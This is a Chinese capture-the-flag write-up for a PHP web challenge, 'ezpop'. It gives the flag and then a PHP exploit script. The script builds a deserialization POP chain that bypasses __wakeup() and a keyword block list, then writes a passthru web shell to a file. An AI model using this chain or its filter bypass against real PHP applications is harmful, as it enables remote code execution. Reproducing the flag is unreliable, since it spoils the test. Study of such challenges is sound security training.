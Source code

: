 - **题目名称：** ezpop
- **题目类型：** WEB
- **题目难度：** 中等 
- **出题人：** ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：** 听说你是pop大师！

- **flag：** flag{Y0u_Ar3_A_POP_Ma5ter!!!!}

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入pass方法，此方法为抽象方法，在子类里实现，所以便进入evil的pass方法，再自己定义nomal类和evil的this->c，用url大小写来绕过date函数，实现绕过$this->a->d === shell的判断，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    public $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract public function pass();

    public function action() {
        $this->pass();
    }
}
class normal{
    public $d;
    function action(){
        echo "you must bypass it";
    }
} 
class evil extends hack {
    public $data;
    public $a;
    public $b;
    public $c;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
        $this->b=serialize(new normal());
        $this->c='%73%68%65%6C%6C';
    }
    public function pass(){
        $this->a = unserialize($this->b);
        $this->a->d = urldecode(date($this->c));
        if($this->a->d=== 'shell'){
           $this->shell();
        }
        else{
            die(date('Y/m/d H:i:s'));
        }
    }
    function shell(){
        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump|php/i',$this->data)){
            die("you die");
        }
        $dir = 'scandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
        if(!file_exists($dir)){
            mkdir($dir);
            echo $dir;
        }
        file_put_contents("$dir" . "hack.php", $this->data);
    }
}
$a=serialize(new Openfunc());
echo $a;
?>
```

